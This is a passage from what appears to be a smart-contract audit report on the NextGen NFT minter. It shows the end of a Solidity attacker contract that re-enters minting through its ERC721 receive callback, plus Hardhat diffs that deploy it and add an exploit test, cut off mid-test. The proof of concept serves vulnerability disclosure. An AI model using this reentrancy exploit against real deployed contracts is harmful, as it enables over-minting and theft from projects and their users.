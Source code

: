 ```
            gasPerIteration = initialGas - gasleft();
        }
        exploitMintCount++;

        if (!received) {
            if ((gasleft() / gasPerIteration) < 1) {
            received = true;
            }
            this.attack(lastUserData);
        }

        return IERC721Receiver.onERC721Received.selector;
    }
}
```

Deploy the contract inside by making the following changes to https://github.com/code-423n4/2023-10-nextgen/blob/main/hardhat/scripts/fixturesDeployment.js:

```diff
diff --git a/fixturesDeployment.original.js b/fixturesDeployment.js
index 3c24466..d4bb785 100644
--- a/fixturesDeployment.original.js
+++ b/fixturesDeployment.js
@@ -42,6 +42,9 @@ const fixturesDeployment = async () ={
     await hhAdmin.getAddress(),
   )

+  const attackerFactory = await ethers.getContractFactory("TestAttackerMintReentrancy")
+  const attacker = await attackerFactory.deploy(await hhMinter.getAddress())
+
   const contracts = {
     hhAdmin: hhAdmin,
     hhCore: hhCore,
     hhMinter: hhMinter,
     hhRandomizer: hhRandomizer,
     hhRandoms: hhRandoms,
+    attacker: attacker,
   }

   const signers = {
```

Add the test inside the test file https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/hardhat/test/nextGen.test.js:

```diff
diff --git a/nextGen.test.original.js b/nextGen.test.js
index fa3864c..667795f 100644
--- a/nextGen.test.original.js
+++ b/nextGen.test.js
@@ -269,6 +269,27 @@ describe("NextGen Tests", function () {
   })
 
   context("Minting", () => {
+    it("EXPLOIT: mint more NFTs from collection 1 than the allowed amount (Reentrancy)", async function () {
+      console.log('Max Allowed to mint tokens per address: ', await contracts.hhCore.viewMaxAllowance(1));
+      const attackerAddress = await contracts.attacker.getAddress();
+      const balanceBeforeAttack = await contracts.hhCore.balanceOf(attackerAddress);
+      console.log(`Attacker's balance before the attack: `, balanceBeforeAttack);
+
+      await contracts.attacker.mint({
+        _collectionID: 1,
```